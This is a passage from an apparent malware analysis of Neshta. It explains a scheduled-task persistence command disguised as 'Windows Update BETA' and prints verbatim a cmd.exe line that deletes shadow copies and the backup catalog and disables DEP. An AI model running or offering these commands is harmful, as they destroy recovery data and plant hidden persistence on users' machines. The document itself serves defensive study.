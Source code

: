 -   `/sc onstart`: This sets the schedule type for the task. `onstart` means the task will run each time the computer starts.
    
-   `/TN "Windows Update BETA"`: This sets the name of the task to "Windows Update BETA".
    
-   `/TR "C:\\Users\\Admin\\AppData\\Local\\Temp\\3582-490\\Windows Servers Runtime.exe"`: This is the action to be performed by the scheduled task. Here, it's set to execute a file named `Windows Servers Runtime.exe` located in a temporary folder within the Admin user's AppData directory.
    
-   `/F`: This forces the task to be created and overwrites any existing task with the same name.

![create-task](/images/neshta/neshta-create-task-02.png)

**Implications:**

-   The use of the `SYSTEM` account will allow the task to have extended privileges on the computer.
-   The executable is located in a temporary folder and not in a typical program directory, which could be suspicious.
-   It is named "Windows Update BETA" in order to remain discreet among other tasks.

### Disabling protections

The malware will execute different commands using cmd.exe.

![neshta-cmd-action](/images/neshta/neshta-cmd-action.png)

1.  **vssadmin, wbadmin, bcdedit, and wmic command**: `cmd.exe "/c vssadmin.exe delete shadows /all /quiet&&wbadmin delete catalog -quiet && bcdedit.exe /set {current} nx AlwaysOff && wmic SHADOWCOPY DELETE"`
    
    -   `vssadmin.exe delete shadows /all /quiet`: Deletes all system restore points (Shadow Copies) without displaying messages.
    -   `wbadmin delete catalog -quiet`: Deletes the backup catalog, which can prevent previous backups from being restored.
    -   `bcdedit.exe /set {current} nx AlwaysOff`: Disables Data Execution Prevention (DEP) for the current system, potentially making the system more vulnerable to attacks.
    -   `wmic SHADOWCOPY DELETE`: Also deletes shadow copies, another form of restore points.
